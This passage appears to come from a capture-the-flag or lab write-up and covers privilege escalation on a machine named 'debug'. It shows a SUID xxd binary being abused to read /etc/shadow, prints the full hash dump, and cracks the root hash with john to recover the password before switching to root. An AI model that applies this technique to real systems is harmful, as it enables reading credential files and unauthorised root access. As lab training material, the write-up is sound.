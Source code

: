 ### PRIV ESC
There is a SUID binary `xxd` on this machine that we can exploit to read any file we like on the machine. With this I read the /etc/shadow file
```
megan@debug:/dev/shm$ FILE=/etc/shadow
FILE=/etc/shadow
megan@debug:/dev/shm$ xxd "$FILE" | xxd -r
xxd "$FILE" | xxd -r
root:$6$YbP4.h/m$HTWC5ubw1dJK1Ed11RExV/55T0JlRnjtPcCyQEugG470lfZG2Eo8Id2ZeEb2vBnHRTVZls2kZNnaC7GZRCjwf/:18358:0:99999:7:::
daemon:*:18295:0:99999:7:::
bin:*:18295:0:99999:7:::
sys:*:18295:0:99999:7:::
sync:*:18295:0:99999:7:::
games:*:18295:0:99999:7:::
man:*:18295:0:99999:7:::
lp:*:18295:0:99999:7:::
mail:*:18295:0:99999:7:::
news:*:18295:0:99999:7:::
uucp:*:18295:0:99999:7:::
proxy:*:18295:0:99999:7:::
www-data:*:18295:0:99999:7:::
backup:*:18295:0:99999:7:::
list:*:18295:0:99999:7:::
irc:*:18295:0:99999:7:::
gnats:*:18295:0:99999:7:::
nobody:*:18295:0:99999:7:::
systemd-network:*:18295:0:99999:7:::
systemd-resolve:*:18295:0:99999:7:::
syslog:*:18295:0:99999:7:::
messagebus:*:18295:0:99999:7:::
_apt:*:18295:0:99999:7:::
lxd:*:18295:0:99999:7:::
uuidd:*:18295:0:99999:7:::
dnsmasq:*:18295:0:99999:7:::
landscape:*:18295:0:99999:7:::
pollinate:*:18295:0:99999:7:::
sshd:*:18357:0:99999:7:::
megan:$6$agnTjgTe$wyLY7h/29DB/5ZfcArQYPBpMYxfsvJH5FoPKA9zufGOte5OLZbFUnA10xapEsPkDm7monYX9q1y5cFZTOKRPF.:18359:0:99999:7:::
```
Now we can try crack the hashes and see we cracked the root password:
```
john --wordlist=/usr/share/wordlists/rockyou.txt hash
Using default input encoding: UTF-8
Loaded 2 password hashes with 2 different salts (sha512crypt, crypt(3) $6$ [SHA512 256/256 AVX2 4x])
Cost 1 (iteration count) is 5000 for all loaded hashes
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
0g 0:00:00:12 0.10% (ETA: 18:55:36) 0g/s 1346p/s 2692c/s 2692C/s christal..fleming
shanghai         (root)
```
Now we can run `su root` with the password to log in as root.
